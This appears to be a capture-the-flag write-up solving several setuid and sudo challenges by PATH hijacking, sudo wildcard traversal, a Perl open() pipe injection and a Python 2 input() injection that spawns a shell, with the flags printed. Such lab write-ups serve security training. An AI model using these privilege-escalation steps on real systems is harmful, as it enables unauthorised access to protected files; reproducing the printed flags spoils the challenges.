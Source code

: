 # Bash - System 1
Source 
```C
#include <stdlib.h>
#include <stdio.h>
 
/* gcc -m32 -o ch11 ch11.c */
 
int main(void) 
{
	system("ls /challenge/app-script/ch11/.passwd"); 
	return 0;
}
```
Solve
```assembly
app-script-ch11@challenge02:~$ mkdir /tmp/tmp1/ ; cd /tmp/tmp1
app-script-ch11@challenge02:/tmp/tmp1$ export PATH="/tmp/tmp1:${PATH}"
app-script-ch11@challenge02:/tmp/tmp1$ ln -s /bin/cat ls
app-script-ch11@challenge02:/tmp/tmp1$ ~/ch11
!oPe96a/.s8d5
```

Flag is : ```!oPe96a/.s8d5```

# sudo - weak configuration

by using the command : `sudo -l` We can see our rights in the sudo world. And as the command says :
```assembly
app-script-ch1@challenge02:~$ sudo -l
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```
’*’ being a good soldier, it can be replaced by everything... even ’../’
So, to get the file /shell1cracked/.flag we can use :
```assembly
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked  cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
b3_c4r3full_w1th_sud0
```
Flag is : ```b3_c4r3full_w1th_sud0```

# Bash - System 2
Source:

```C
#include <stdlib.h>
#include <stdio.h>
 
int main(){
	system("ls -lA /challenge/app-script/ch12/.passwd");
	return 0;
}
```
Solve 0x1:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd
app-script-ch12@challenge02:~$ cp /bin/nano /tmp/pwnd/ls
app-script-ch12@challenge02:~$ export PATH=/tmp/pwnd:$PATH
app-script-ch12@challenge02:~$ ./ch12
```
Solve 0x2:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd1 ; cd /tmp/pwnd1
app-script-ch12@challenge02:/tmp/pwnd1$ nano pwn.c
app-script-ch12@challenge02:/tmp/pwnd1$ g++ pwn.c -o pwn
app-script-ch12@challenge02:/tmp/pwnd1$ export PATH=/tmp/pwnd1:$PATH
app-script-ch12@challenge02:/tmp/pwnd1$ mv pwn ls
app-script-ch12@challenge02:/tmp/pwnd1$ ~/ch12 
8a95eDS/*e_T#
```
Flag is : ```8a95eDS/*e_T#```

# Perl - Command injection
Source :

```perl
#!/usr/bin/perl

delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
$ENV{'PATH'}='/bin:/usr/bin';

use strict;
use warnings;

main();

sub main {
    my ($file, $line) = @_;

    menu();
    prompt();

    while((my $file = <STDIN>)) {
        chomp $file;

        process_file($file);

        prompt();
    }
}

sub prompt {
    local $| = 1;
    print ">>> ";
}
sub menu {
    print "*************************\n";
    print "* Stat File Service    *\n";
    print "*************************\n";
}

sub check_read_access {
    my $f = shift;

    if(-f $f) {
        my $filemode = (stat($f))[2];

        return ($filemode & 4);
    }

    return 0;
}

sub process_file {
    my $file = shift;
    my $line;
    my ($line_count, $char_count, $word_count) = (0,0,0);

    $file =~ /(.+)/;
    $file = $1;
    if(!open(F, $file)) {
        die "[-] Can't open $file: $!\n";
    }


    while(($line = <F>)) {
        $line_count++;
        $char_count += length $line;
        $word_count += scalar(split/\W+/, $line);
    }

    print "~~~ Statistics for \"$file\" ~~~\n";
    print "Lines: $line_count\n";
    print "Words: $word_count\n";
    print "Chars: $char_count\n";

    close F;
}
```
Solve:
```assembly
app-script-ch7@challenge02:~$ ./setuid-wrapper 
*************************
* Stat File Service    *
*************************
>>> | cat .passwd
~~~ Statistics for "| cat .passwd" ~~~
Lines: 0
Words: 0
Chars: 0
PerlCanDoBetterThanYouThink
```
Flag is : ```PerlCanDoBetterThanYouThink```

Source :
```python
#!/usr/bin/python2
 
import sys
 
def youLose():
    print "Try again ;-)"
    sys.exit(1)
 
 
try:
    p = input("Please enter password : ")
except:
    youLose()
 
 
with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```
Now we know that the flag located in .passwd is just a set of numbers and if your input matched this numbers it will print ```Well done ! You can validate with this password !``` so i first tryed to buruteforce
```bash
#!/bin/bash

i=0;
while true; do
   echo 'echo '"$i"' | /challenge/app-script/ch6/setuid-wrapper'
   if [[ $(echo $i | /challenge/app-script/ch6/setuid-wrapper) =~ "Well done " ]] ; then
       echo "$i is the password";
        break;
   fi
   let i++
done

```
but it seemed like it will take forever so it exploited it.
```assembly
app-script-ch6@challenge02:~$ ./setuid-wrapper 
Please enter password : __import__("os").execl("/bin/sh","sh")
$ cat .passwd
13373439872909134298363103573901
$ 
```
Flag is ```13373439872909134298363103573901```

